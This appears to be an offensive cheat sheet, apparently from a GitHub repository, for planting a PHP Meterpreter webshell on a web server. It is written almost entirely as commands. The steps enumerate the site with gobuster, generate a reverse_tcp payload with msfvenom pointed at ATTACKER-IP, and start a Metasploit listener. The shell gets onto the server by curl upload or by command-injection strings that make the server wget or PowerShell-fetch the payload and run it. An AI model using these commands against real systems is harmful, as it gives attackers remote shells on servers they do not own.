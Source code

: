 Scenario:

Requires **msf6 > use multi/handler** module

* enumerate website to find file upload or command injection vulnerability
* use msfvenom to create a staged webshell with php/meterpreter/reverse_tcp
* use multi/handler to setup listener with php/meterpreter/reverse_tcp
* use curl to upload the webshell.php and trigger it on vulnerable website

Attacker

```shell
# enumerate website
gobuster dir -u http://victim.com -w /usr/share/wfuzz/wordlist/general/megabeast.txt


# list built-in webshell payloads
msfvenom -l payloads | grep -P "( php/| nodejs/| java/| python/| firefox)"

msfvenom -p php/meterpreter/reverse_tcp --list-options
msfvenom -p php/meterpreter/reverse_tcp LHOST=ATTACKER-IP LPORT=4444 -f raw > webshell.php

# very important: look into the file an remove save guards like comments
gedit webshell.pHP
head -c 10 webshell.pHP 
 <?php error
tail -c 10 webshell.pHP
 die(); ?>

use multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST ATTACKER-IP
set LPORT 4444
run

# upload file directly and run it with curl
curl -F "file=@webshell.php" http://victim.com/upload.php
curl -G http://victim.com/upload/webshell.php

#  upload using linux os command injection and run it with php
python3 -m http.server 80 
curl -G http://victim.com/list.php?path=. ; wget -O /tmp/webshell.php http://ATTACKER-IP/webshell.php ;
curl -G http://victim.com/list.php?path=/tmp ; php -f /tmp/webshell.php

# upload using windows os command injection with powershell
python3 -m http.server 80
curl -G http://victim.com:8000/gitclone.php?path=https://github.com/microsoft/markitdown ; powershell iwr -Uri http://ATTACKER-IP/webshell.pHP -Out C:/xampp/htdocs/dashboard/webshell.pHP; ls C:/xampp/htdocs/dashboard/
curl -G http://victim.com/upload/webshell.php

meterpreter > sysinfo
```

